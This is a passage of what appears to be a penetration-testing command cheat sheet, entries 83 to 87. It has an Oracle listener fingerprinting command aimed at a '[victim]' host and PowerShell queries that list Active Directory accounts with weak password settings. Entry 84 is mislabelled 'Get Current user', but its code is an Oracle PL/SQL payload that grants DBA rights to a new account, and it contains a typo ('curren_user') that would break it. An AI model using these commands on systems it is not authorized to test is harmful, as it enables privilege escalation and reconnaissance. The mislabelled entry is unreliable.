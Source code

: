 https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
__________
### 83. Fingerprint remote oracle server
```
tnscmd10g version -h [victim]
```
**- enumeration,Oracle**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
http://cyborg.ztrela.com/tnscmd10g.php/
__________
### 84. Get Current user oracle DB : CMD new lines removed
```
CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid curren_user is pragma autonomous_transaction; begin execute immediate 'grant dba to user1 identified by pass1'; commit; return 'FOO'; end;
```
**- enumeration,Oracle**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
__________
### 85. Check for accounts that don't have password expiry set
```
Get-ADUser -Filter 'useraccountcontrol -band 65536' -Properties useraccountcontrol | export-csv U-DONT_EXPIRE_PASSWORD.csv
```
**- enumeration,user information,Windows,powershell**
#### References:

https://www.reddit.com/r/sysadmin/comments/3y0pad/some_ad_checks_you_should_be_running_on_a_regular/
__________
### 86. Check for accounts that have no password requirement
```
Get-ADUser -Filter 'useraccountcontrol -band 32' -Properties useraccountcontrol | export-csv U-PASSWD_NOTREQD.csv
```
**- enumeration,user information,Windows,powershell**
#### References:

https://www.reddit.com/r/sysadmin/comments/3y0pad/some_ad_checks_you_should_be_running_on_a_regular/
__________
### 87. Accounts that have the password stored in a reversibly encrypted format
```
Get-ADUser -Filter 'useraccountcontrol -band 128' -Properties useraccountcontrol | export-csv U-ENCRYPTED_TEXT_PWD_ALLOWED.csv
```
**- enumeration,user information,Windows,powershell**
#### References:
